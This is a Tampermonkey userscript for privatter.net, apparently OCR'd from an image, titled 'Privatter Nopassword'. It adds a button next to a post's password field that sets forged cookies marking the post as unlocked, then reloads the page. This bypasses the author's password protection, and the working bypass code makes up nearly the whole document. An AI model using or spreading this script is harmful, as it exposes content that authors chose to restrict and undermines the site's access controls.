// ==UserScript==
// @ulapwrites         Privatter Nopassword
// @namespace    http://tampermonkey.net/
// @version      0.1
// @description  try to take over the world!
// @author       You
// @match        https://privatter.net/*
// @grant        none
// ==/UserScript==

(function() {
    'use strict';
    let passwordInput = $('input[type=password]');
    if (!passwordInput[0]) {
        return;
    }

    const getPrivatterCookie = (url) => {
        let privatterId = url.match(/privatter\.net\/(\w)\/(\d+)/i);
        let privatterType;
        if (privatterId == null || privatterId.length < 3) {
            return [];
        } else {
            let date = new Date();
            date.setFullYear(date.getFullYear() + 1);
            privatterType = privatterId[1];
            privatterId = privatterId[2];
            return [`${privatterType}${privatterId}=1; path=/${privatterType}; expires=${date.toGMTString()}`, `pass_${privatterType}${privatterId}=1; path=/${privatterType}; expires=${date.toGMTString()}`];
        }
    }

    let button = document.createElement('button');
    button.className = 'btn btn-primary';
    button.innerText = '見たい';
    button.addEventListener('click', (e) => {
        for (let i of getPrivatterCookie(location.href)) {
            document.cookie = i;
        }
        console.log(getPrivatterCookie(location.href));
        e.stopPropagation();
        e.preventDefault()
        setTimeout(() => {
            location.reload()
        }, 0);
    }, false);
    passwordInput.parent().append(button);
})();
